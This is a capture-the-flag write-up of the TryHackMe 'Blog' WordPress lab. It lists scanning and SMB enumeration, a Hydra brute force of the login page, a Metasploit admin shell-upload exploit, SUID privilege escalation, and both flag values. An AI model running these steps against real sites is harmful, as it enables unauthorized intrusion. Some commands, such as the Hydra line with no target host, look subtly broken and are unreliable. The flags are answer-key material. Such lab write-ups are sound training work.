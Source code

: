 
## THM-Writeup-Wordpress-Security

Writeup for TryHackMe WordPress Pentest Lab - including security tools, commands used, and key lessons learned.
Developed by Ramyar Daneshgar

https://tryhackme.com/r/room/blog

 ⚠️ Disclaimer: All actions were performed in a controlled, authorized environment. Unauthorized use is strictly prohibited.

## Background

The **Blog** lab on TryHackMe provides a vulnerable WordPress site set up by "Billy Joel" as the target. The primary objective of the lab was to uncover two flags: `user.txt` and `root.txt`. This exercise required leveraging reconnaissance, enumeration, exploitation, and privilege escalation techniques. The lab also focused on identifying misconfigurations in WordPress and exploiting these weaknesses to gain administrative and root access.

Through this lab, I enhanced my knowledge of web application vulnerabilities, practiced privilege escalation techniques, and refined my use of various penetration testing tools.

---

## Step-by-Step Walkthrough

### Step 1: Configuring the Environment

#### Adding `blog.thm` to `/etc/hosts`
To resolve `blog.thm` to the target machine's IP address, I modified the `/etc/hosts` file:
```bash
echo "10.10.120.185 blog.thm" >> /etc/hosts
```

---

### Step 2: Scanning and Enumeration

#### 1. Nmap Scan
I performed a network scan to identify open ports and services:
```bash
nmap -sC -sV -oN nmap_scan blog.thm
```
**Findings:**
- Port 80: HTTP (WordPress)
- Port 445: SMB

#### 2. SMB Enumeration
Using `smbclient`, I enumerated accessible SMB shares:
```bash
smbclient -L \\blog.thm
```
I then connected to the `BillySMB` share and downloaded all files:
```bash
smbclient \\blog.thm\BillySMB
mget *
```
The files contained images and text but yielded no actionable information.

---

### Step 3: Web Application Enumeration

#### 1. Directory Enumeration with Gobuster
To discover hidden directories on the web application, I used Gobuster:
```bash
gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
```
**Discovered Directories:**
- `/admin`
- `/wp-json`
- `/wp-content`

#### 2. WordPress Enumeration with WPSCAN
I enumerated the WordPress site for users and vulnerabilities:
```bash
wpscan --url http://blog.thm --enumerate u
```
**Results:**
- WordPress version: `5.0`
- Users: `kwheel`, `bjoel`

---

### Step 4: Gaining Admin Access

#### Brute-Force Attack on WordPress
Using Hydra, I brute-forced the WordPress admin credentials:
```bash
hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
```
**Successful Credentials:**
- Username: `kwheel`
- Password: `password123`

---

### Step 5: Exploiting WordPress

#### 1. Identifying Vulnerabilities
From the admin dashboard, I confirmed the WordPress version as `5.0` and searched Exploit-DB for vulnerabilities:
```bash
searchsploit wordpress 5.0
```
An authenticated RCE vulnerability was identified.

#### 2. Exploiting with Metasploit
Using Metasploit, I exploited the vulnerability to gain a reverse shell:
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST blog.thm
set USERNAME kwheel
set PASSWORD password123
set TARGETURI /wp-admin
run
```

---

### Step 6: Privilege Escalation to Root

#### 1. Identifying SUID Files
I enumerated SUID binaries to identify potential privilege escalation vectors:
```bash
find / -perm -4000 2>/dev/null
```
**Key Finding:** A binary named `checker`.

#### 2. Exploiting the SUID Binary
Executing the `checker` binary escalated my privileges to root:
```bash
./checker
```

---

### Step 7: Retrieving the Flags

#### Retrieving `user.txt`
I navigated to the home directory of `kwheel` and retrieved the flag:
```bash
cat /home/kwheel/user.txt
```
**Flag:** `9a0b2b618bef9bfa7ac28c1353d9f318`

#### Retrieving `root.txt`
With root access, I navigated to the `/root` directory and retrieved the second flag:
```bash
cat /root/root.txt
```
**Flag:** `c8421899aae571f7af486492b71a8ab7`

---

## Tools and Commands Utilized

- **Nmap**: Network scanning and service enumeration.
  ```bash
  nmap -sC -sV -oN nmap_scan blog.thm
  ```
- **Smbclient**: SMB share enumeration and file download.
  ```bash
  smbclient -L \\blog.thm
  smbclient \\blog.thm\BillySMB
  ```
- **Gobuster**: Directory enumeration.
  ```bash
  gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
  ```
- **Wpscan**: WordPress vulnerability and user enumeration.
  ```bash
  wpscan --url http://blog.thm --enumerate u
  ```
- **Hydra**: Brute-forcing WordPress credentials.
  ```bash
  hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
  ```
- **Metasploit**: WordPress exploitation.
  ```bash
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  ```
- **Find Command**: SUID binary enumeration.
  ```bash
  find / -perm -4000 2>/dev/null
  ```

---

## Key Lessons Learned

1. **Reconnaissance and Enumeration**:
   - Nmap, Gobuster, and WPSCAN are great tools for discovering attack surfaces.
2. **WordPress Vulnerabilities**:
   - Exploiting misconfigurations and leveraging RCE vulnerabilities.
3. **Privilege Escalation**:
   - Identifying and exploiting SUID binaries for root access.
4. **Using Metasploit Effectively**:
   - Automating exploitation tasks for efficiency.

---

## Conclusion

The Blog lab was a valuable exercise in web application penetration testing. It enhanced my skills in reconnaissance, vulnerability exploitation, and privilege escalation while reinforcing the importance of systematic enumeration and targeted attacks. 
